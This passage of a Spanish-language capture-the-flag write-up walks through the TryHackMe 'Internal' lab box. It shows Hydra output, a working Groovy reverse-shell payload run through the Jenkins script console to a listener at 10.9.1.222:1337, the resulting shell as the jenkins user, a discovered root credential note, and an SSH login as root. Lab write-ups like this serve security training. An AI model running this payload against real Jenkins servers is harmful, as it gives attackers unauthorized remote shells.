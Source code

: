 ```bash
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-07-09 11:42:07

```
Si!! Conseguimos el usuario y la contraseña para poder logearnos.

En la dirección `http://127.0.0.1:8080/script` podemos ejecutar un script!

Yo utilizaré una shell reversa del repositorio [PayloadsAllTheThings](`https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#groovy`):

```java
String host="10.9.1.222"; //Aquí debería ir tu ip
int port=1337;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

```bash
╰─ lanfran@parrot ❯ nc -nlvp 1337                                                                                                                                  ─╯
listening on [any] 1337 ...
connect to [10.9.1.222] from (UNKNOWN) [10.10.170.6] 53972
id
uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)
whoami
jenkins
cd /opt
ls -la
total 12
drwxr-xr-x 1 root root 4096 Aug  3  2020 .
drwxr-xr-x 1 root root 4096 Aug  3  2020 ..
-rw-r--r-- 1 root root  204 Aug  3  2020 note.txt
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:[REDACTADO]
```

SI! Shell reversa como `jenkins`!

Buscando nuevamente a traves de los directorios, encotré la contraseña de `root`!!

```bash
╰─ lanfran@parrot ❯ ssh -L 8080:172.17.0.2:8080 root@internal.thm                                                                                                  ─╯
root@internal.thm's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Jul  9 09:52:03 UTC 2021

  System load:  0.0               Processes:              111
  Usage of /:   63.9% of 8.79GB   Users logged in:        0
  Memory usage: 57%               IP address for eth0:    10.10.170.6
  Swap usage:   0%                IP address for docker0: 172.17.0.1
```